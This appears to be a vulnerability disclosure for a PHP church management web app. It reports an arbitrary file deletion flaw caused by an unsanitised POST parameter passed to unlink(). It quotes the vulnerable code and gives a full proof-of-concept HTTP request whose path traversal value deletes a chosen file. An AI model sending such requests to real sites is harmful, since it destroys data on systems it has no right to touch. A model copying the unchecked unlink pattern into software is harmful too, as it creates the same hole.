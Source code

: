 ### Vulnerability file address

In line 129 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_cat_img']);`,` $_POST['old_cat_img']` parameters have not been restricted, which causes any file to be deleted

```php
if (isset($_POST['update1'])) {
        if ($_FILES['photo2']['tmp_name'] != '') {
            $file_extension = pathinfo($_FILES['photo2']['name'], PATHINFO_EXTENSION);
            $unique_filename = uniqid() . '.' . $file_extension;
            $filepath = "../../assets/images/" . $unique_filename;

            if (move_uploaded_file($_FILES["photo2"]["tmp_name"], $filepath)) {
                $img = $unique_filename;

                @unlink("../../assets/images/" . $_POST['old_cat_img']);
            }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 370

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update1"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_cat_img"

../../3.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo2";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `3.txt` file in the `church/` directory

![image-20250504204551536](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042045577.png)

Then we execute the above poc to attack

![image-20250504210137104](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042101133.png)

Files are deleted after the attack is successful

![image-20250504210146111](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042101139.png)
